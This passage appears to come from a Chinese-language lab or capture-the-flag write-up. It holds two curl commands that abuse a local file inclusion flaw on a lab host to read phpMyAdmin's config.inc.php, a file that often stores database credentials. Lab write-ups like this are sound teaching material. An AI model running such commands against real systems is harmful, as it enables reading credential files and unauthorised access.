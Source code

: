 ![image-20240310184835579](imgs/image-20240310184835579.png)

通过文件包含去访问一下该路径

```bash
sudo curl -X POST -d "file=./phpmy/config.inc.php" http://10.10.10.28/test
sudo curl -X POST -d "file=/var/www/phpmy/config.inc.php" http://10.10.10.28/test
```


